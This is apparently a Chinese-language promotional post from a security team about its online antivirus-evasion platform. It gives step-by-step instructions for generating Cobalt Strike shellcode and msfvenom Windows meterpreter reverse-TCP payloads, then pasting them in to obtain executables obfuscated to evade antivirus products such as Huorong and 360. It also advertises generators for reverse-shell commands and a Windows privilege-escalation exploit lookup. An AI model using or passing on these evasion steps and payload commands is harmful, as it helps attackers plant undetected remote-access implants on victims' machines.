 
<div align=center><img src=images/2022.08-TideAv/bypass.png width=30% ></div>


2020年初，汇总整理了远控免杀专题文章的工具篇、代码篇、白名单篇等，共70余篇文章。当时一方面是web狗从零开始学习免杀知识，另一方面也是想做一个免杀平台，文章写完后时隔两年免杀平台才有了点眉目，希望以后能逐渐完善。

**潮影在线免杀平台: http://bypass.tidesec.com**

免杀专题文章及工具：[https://github.com/TideSec/BypassAntiVirus](https://github.com/TideSec/BypassAntiVirus)

## 平台功能

目前平台主要实现了如下功能：`shellcode免杀`、`windows提权辅助`、`杀软在线对比`、`常见提权命令`、`反弹shell命令`。

![](images/2022.08-TideAv/16601015660341.jpg)

## shellcode免杀

shellocde免杀使用了多种shellcode加载方式，目前以Go语言实现为主，后期会加入Powershell、C、nim等语言，对shellcode的处理使用了随机变量、AES/RC4/多重Base64/Base85/异或算法、伪造签名、随机图标、免杀分离、条件触发等方式，在本地测试的时候效果还是不错的，但发现放到在线平台后，可能样本被上传的比较多，免杀效果就比较一般了。但目前来说过火绒和360卫士还是没有问题的。

使用也比较方便，只需要从Cobaltstrike或Msfvenom生成shellcode，填写到shellcode框内，调整一些参数，便可以在线生成免杀的可执行文件。

### Cobaltstrike生成shellcode

在Cobaltstrike中`Attacks`-`packages`-`Payload Generator`。

![](images/2022.08-TideAv/16601021692130.jpg)

然后选择好`Listener`之后，Output选`C`，下面选择`x64`，免杀效果更好。
![](images/2022.08-TideAv/16601022437671.jpg)
查看生成的shellcode

![](images/2022.08-TideAv/16601023879621.jpg)

把内容都整个复制到[潮影在线免杀平台](http://bypass.tidesec.com)的输入框里就可以。之后提交，等待几秒钟就可以下载了。

![](images/2022.08-TideAv/16601024794472.jpg)

![](images/2022.08-TideAv/16601173358597.jpg)


### Metasploit 生成shellcode

生成64位的payload c语言文件
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f c -o payload.c LHOST=1.1.1.1 LPORT=3333
```
![](images/2022.08-TideAv/16601026687684.jpg)

或者直接生成hex格式
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o payload.c LHOST=1.1.1.1 LPORT=3333
```
![](images/2022.08-TideAv/16601026426649.jpg)

上面生成的shellcode都可以直接复制到[潮影在线免杀平台](http://bypass.tidesec.com)，系统会自动处理后生成免杀程序。


## windows提权辅助

主要提供了Windows提权EXP在线搜索功能。

![](images/2022.08-TideAv/16601031076402.jpg)

使用方式：运行cmd命令`systeminfo`获取信息，粘贴`systeminfo`信息或只粘贴补丁信息到编辑框内。

![](images/2022.08-TideAv/16601030840003.jpg)

### 杀软在线对比

在windows系统cmd中执行`tasklist`，将进程信息输入即可。

![](images/2022.08-TideAv/16601032847698.jpg)

## Reverse Shell

可快速生成各种反弹shell，如ncat、socat、bash、C、perl、php、powershell、python、ruby、golang、telnet等多种语言和程序，并可自定义进行base64编码等。

![](images/2022.08-TideAv/16601038083041.jpg)


没有一劳永逸的免杀，只有精益求精的绕过，后续平台也会继续更新完善，早日将更多语言、更多绕过姿势也都并入到平台中。

**潮影在线免杀平台: http://bypass.tidesec.com**

## 关于Tide安全团队

Tide安全团队致力于分享高质量原创文章，研究方向覆盖网络攻防、Web安全、移动终端、安全开发、IoT/物联网/工控安全等多个领域，对安全感兴趣的小伙伴可以关注或加入我们。

Tide安全团队自研开源多套安全平台，如Tide(潮汐)网络空间搜索平台、潮启移动端安全管控平台、分布式web扫描平台WDScanner、Mars网络威胁监测平台、潮汐指纹识别系统、潮巡自动化漏洞挖掘平台、工业互联网安全监测平台、漏洞知识库、代理资源池、字典权重库、内部培训系统等等。

Tide安全团队自建立之初持续向CNCERT、CNVD、漏洞盒子、补天、各大SRC等漏洞提交平台提交漏洞，在漏洞盒子先后组建的两支漏洞挖掘团队在全国300多个安全团队中均拥有排名前十的成绩。团队成员在FreeBuf、安全客、安全脉搏、t00ls、简书、CSDN、51CTO、CnBlogs等网站开设专栏或博客，研究安全技术、分享经验技能。

对安全感兴趣的小伙伴可以关注Tide安全团队Wiki：[http://paper.TideSec.com](http://paper.TideSec.com) 或团队公众号。

<div align=center><img src=images/ewm.png width=30% ></div> 

